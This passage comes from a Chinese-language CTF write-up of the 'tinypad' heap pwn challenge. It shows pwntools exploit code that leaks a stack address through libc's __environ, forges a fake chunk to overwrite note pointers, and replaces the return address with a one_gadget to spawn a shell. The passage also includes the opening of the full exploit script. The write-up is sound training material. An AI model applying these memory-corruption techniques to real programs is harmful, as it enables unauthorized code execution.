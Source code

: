 ```
environ_addr = libc_base + libc.sym['__environ']#得到environ的地址
payload3 = 'a' * 0xd0 + p64(0x18) + p64(environ_addr) + p64(0x100) + p64(0x602148)
alloc(0x100 - 8,payload3)#idx2，得到tinypad+0x20处的fake_chunk,并构造堆块上的内容，覆盖chunk1和chunk2的ptr
p.recvuntil('CONTENT: ')
stack_addr = u64(p.recvuntil('\n',drop = True).ljust(8,'\x00'))#得到environ中的栈地址
ret_addr = stack_addr + 0x7ffd2bad3188 - 0x7ffd2bad3278#得到返回地址，这个偏移可以通过调试获得。
log.success('stack_addr: %s' % hex(stack_addr))
one_gadget_addr = libc_base + one_gadget[0]#onegadget地址
```



## 0x06 漏洞利用

到了最后一步了，我们获得了函数的返回地址ret_addr，刚才我们申请fake_chunk是修改了chunk1和chunk2的指针，chunk2中保留的是0x602148，正好是存储chunk1的指针的地方。因为libc和栈的其实地址一般都是0x7f，并且长度都是12个16进制数。所以这里我们可以直接通过edit chunk2来修改chunk1的指针为ret_addr。最后再edit chunk1，将返回地址处保留的值改成one_gadget。返回地址处原先保留的值也是一个以0x7f开头，长度是12个16进制数的地址。所以这里edit函数也可以实现我们想要的功能，不会因为长度问题截断。

全部写好后，我们输入Q，让程序退出，就能拿到shell了。

```
edit(2,p64(ret_addr))#修改chunk1的指针为ret_addr
edit(1,p64(one_gadget_addr))#将ret_addr中的值改成one_gadget
p.recvuntil('(CMD)&gt;&gt;&gt; ')
p.sendline('Q')#程序退出，获得shell
p.interactive()#进行交互操作
```

最后脚本执行的结果：

## [![](https://p0.ssl.qhimg.com/t017ccd1b91fee65e61.png)](https://p0.ssl.qhimg.com/t017ccd1b91fee65e61.png)



## 0x07 个人心得

这道题目我从开始到解出再到写完文章花了两天的时间，里面穿插了很多保护绕过的技术。通过不断的调试，不断分析问题才最后靠自己解出这道题目。这道题目加深了我对堆保护技术绕过的印象，也让我知道了一种可以泄露栈地址的方法，同时也加深了unlink的各种操作的理解。（这两天我还去复习了unlink的各种合并检查操作）。总之，堆是pwn的基础，打好基础，熟练掌握各种攻击方式，才能在比赛中熟练综合运用。

如果exp尝试失败，可能是环境原因，也有可能是堆的地址含有\x00被截断了。前者可以自行调试环境，后者可以多尝试几次。



## 0x08 exp

```
from pwn import *

p = process("./tinypad")
libc = ELF("/home/wbohan/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so")
context.log_level = 'debug'
one_gadget = [0x45226,0x4527a,0xf03a4,0xf1247]

def alloc(size, content):
p.recvuntil("(CMD)&gt;&gt;&gt; ")
p.sendline("A")
p.recvuntil("(SIZE)&gt;&gt;&gt; ")
p.sendline(str(size))
p.recvuntil("(CONTENT)&gt;&gt;&gt; ")
p.sendline(content)

def delete(index):
p.recvuntil("(CMD)&gt;&gt;&gt; ")
p.sendline("D")
p.recvuntil("(INDEX)&gt;&gt;&gt; ")
p.sendline(str(index))
```